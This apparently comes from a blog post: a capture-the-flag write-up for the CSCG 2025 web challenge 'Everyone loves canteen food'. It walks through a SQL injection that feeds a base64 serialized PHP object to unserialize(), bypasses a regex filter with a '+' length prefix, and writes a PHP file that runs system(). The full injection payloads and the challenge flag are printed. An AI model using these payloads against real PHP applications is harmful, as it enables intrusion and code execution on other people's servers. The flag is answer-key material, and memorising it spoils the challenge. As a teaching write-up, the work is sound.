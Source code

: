 ```yaml
---
title: Everyone loves canteen food - CSCG 2025 - Write-Up
date: 2025-04-24 10:01:00 +0200
categories: [Cyber Security Challenge Germany]
tags: [sqli,insecure_deserialization]
description: Find a SQL injection vulnerability and a insecure object deserialization vulnerability to get the flag.
image:
  path: /assets/blog/Everyone loves canteen food/app.png
  alt: CSCG image
---
```



This Write-Up showcases the solution for the challenge titled as "Everyone loves canteen food" within the web category of CSCG 2025. The challenge was created by `Poory` and is rated as Medium.

## Intro

The challenge is presented with the following description:

> Welcome to the canteen's online menu, where you can check out the daily specials and their prices. But is everything as appetizing as it seems?
> 
> Flagformat: `string which has to be put in dach2025{<string>}`

The application is a straightforward PHP solution that allows users to view the cafeteria menu. Within the app you can also filter the plan. Moreover, it includes an administrative function for creating and viewing logs.

![Screenshot of the cafeteria menu page](/assets/blog/Everyone%20loves%20canteen%20food/app.png)


## Vulnerability Analysis

The both vulnerabilities can be found in the `models/CanteenModel.php` script. This script is used for retrieving the food from the database and transforming it to readable table entires.

### SQL Injection

The function `filterFood()` takes a price parameter when it is called from `controllers/CanteenController.php`. The parameter employed in the `filterFood()` function is susceptible to manipulation by an attacker, as it is obtained directly from the URL via `$_GET['price']`.

```php
if(isset($_GET['price'])) {
    return $router->view('index', ['food' => $food->filterFood($_GET['price'])]);
}
``` 

The function builds a SQL query to filter the foods according to the price, for that the `$price_param` is simply appended to the query. Given that the `$price_param` variable is extracted directly from the URL 
using `$_GET['price']`, you can manipulate it, leading to the creation of an **SQL injection vulnerability**.

```php
public function filterFood($price_param) {
    $log_entry = 'Access at: '. date('Y-m-d H:i:s') .   "<br>\n";
    $logger = new AdminModel("../logs.txt", $log_entry);


    $db = Database::getConnection();
    $sql = "SELECT * FROM food where price < " . $price_param;
    if ($result = $db->query($sql)) {
        $result_string = "";
        ...
    }

    return 'Everything is too expensive for you this week, Sir/Madame. We\'re sorry!';
}
```

### Insecure Deserialization

The second vulnerability found in `models/CanteenModel.php` is a insecure deserialization vulnerability, this vulnerability **can** lead to **RCE**. After the SQL query is retrieved, each object in the database is checked if it has the `oldvalue` property set, if so the value is base64 decoded and saved as `$dec_result`. As a result of not matching the defined regular expression, the `$dec_result` string is subjected to the `unserialize()` function. This allows for the conversion of malicious strings into PHP objects, potentially leading to Remote Code Execution (RCE).

Note: The impact in this application is actually first a **arbitrary file write**, because the available classes only allow that, but because of that you can create PHP files which is finally RCE.

```php
while($obj = $result->fetch_object()){
    ...
    if($obj->oldvalue !== '') {
        $dec_result = base64_decode($obj->oldvalue);
        if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
            return 'Not allowed';
        }
        $uns_result = unserialize($dec_result);
        if ($uns_result[1] < $price_param) {
            $result_string .= $uns_result[0] . ' for ' . $uns_result[1] . '<br>';
        }
    }
}
```

## Exploit

With the SQL injection vulnerability you can display any kind of food on the page and inject malicious data entries to the page.
```
Payload: /?price=1 UNION SELECT 1000,'FOOD', '', 100.99
Returns: FOOD for 100.99
```

Also by exploiting the SQL injection vulnerability, you can input any desired value for the `oldvalue` parameter by incorporating an additional `SELECT` statement in our query. Theoretically you can use this `unserialize()` function to create a object and execute code, but for that you first need a class which has the capabilities for this.

The PHP `serialize` function allows objects and more generally data to be serialized into a standardized string which can easily be stored. This allows you to store data needed later in such an string and you use it easily when you need it. Although this may sound extremely useful it comes with risks. If specific classes are used in the code and an attacker has access to the deserialization and these classes contain so called 'gadgets' you can achieve RCE or other actions implemented in the classes of the vulnerable application. In this application there exists 'only' a arbitrary file write gadget, with the `AdminModel` class.


This class can be used because the `index.php` file additionally integrates the `AdminModel` class derived from `models/AdminModel.php`. The `__wakeup` function is a so called gadget, if its set it will execute if the object is initialized, which allows us to write to files.

```php
class AdminModel {
    public $filename;
    public $logcontent;

    public function __construct($filename, $content) {
        $this->filename = $filename;
        $this->logcontent = $content;
        file_put_contents($filename, $content, FILE_APPEND);
    }

    public function __wakeup() {
        new LogFile($this->filename, $this->logcontent);
    }

    public static function read_logs($log) {
        $contents = file_get_contents($log);
        return $contents;
    }
}
```

The `__wakeup` function calls the `LogFile` class, which writes to a file:

```php
class LogFile {
    public function __construct($filename, $content) {
        file_put_contents($filename, $content, FILE_APPEND);
    }
}
```

The `AdminModel` class can be used to create PHP file. Now you can then call this PHP file and retrieve the flag. The last issue is the regex:
```php
preg_match_all('/O:\d+:"([^"]*)"/')
```

It checks if the string you send has a serialized PHP object in form of `O:len:"name"` in it, the issue is that the standard PHP object is in this format. For the attack to be successful, you need a serialized object which will use the `AdminModel` class. Below is an example of a simple PHP object for reference.

```
O:4:"user":2:{s:3:"age";i:80;s:4:"name";s:3:"James";}
```

In the source code of PHP you may find that you can add a `+` in front of an integer if you have an integer as a variable. If you can add a `+` for the length of the object name you would effectively escape the regular expression. For that you may check the PHP [source code](https://github.com/php/php-src/blob/9285559c8cb61e986dd67132683bc6c52b1048f5/ext/standard/var_unserializer.re) for the `unserialize()` function, you will find out that this is possible. This allows us to execute our payload. 

Here is the plan again:

1. Utilize the SQL injection vulnerability to insert extra food, making 
use of the `oldvalue` parameter.
2. The base64 decoded `oldvalue` is then fed into the `unserialize()` 
function.
3. Leverage the `AdminModel` object to write a PHP file on the system.
4. The generated PHP file can call the `/readflag` binary, which will 
subsequently return the flag.

Firstly I generated a object. This can be done by copying the class `AdminModel` and `LogFile` in a new file and then creating an object that way (be careful it will actually write the file if you create a new object). 
```
O:10:"AdminModel":2:{s:8:"filename";s:13:"/www/flag.php";s:10:"logcontent";s:29:"<?php system("/readflag"); ?>";}
```

To escape the regular expression you need to modify the serialized object and add a `+` in front of the 10 which is the length of the class name.
```
O:+10:"AdminModel":2:{s:8:"filename";s:13:"/www/flag.php";s:10:"logcontent";s:29:"<?php system("/readflag"); ?>";}
```

Next you can carefully construct the `oldvalue` by `base64`/URL encoding the payload.

```text
TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTM6Ii93d3cvZmxhZy5waHAiO3M6MTA6ImxvZ2NvbnRlbnQiO3M6Mjk6Ijw%2FcGhwIHN5c3RlbSgiL3JlYWRmbGFnIik7ID8%2BIjt9
```

Lastly I added the SQL query before and after to get the final payload:
```text
1 UNION SELECT 1000,'', 'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTM6Ii93d3cvZmxhZy5waHAiO3M6MTA6ImxvZ2NvbnRlbnQiO3M6Mjk6Ijw%2FcGhwIHN5c3RlbSgiL3JlYWRmbGFnIik7ID8%2BIjt9', 100.99
```

If you use this payload as the price variable (`?price=<payload>`), the server will write a `flag.php` file to the servers root directory. You can then access it with `/flag.php` to get the flag.


## Flag

```
dach2025{sh1ty_r3g3x_w0nt_s4fe_y0u}
```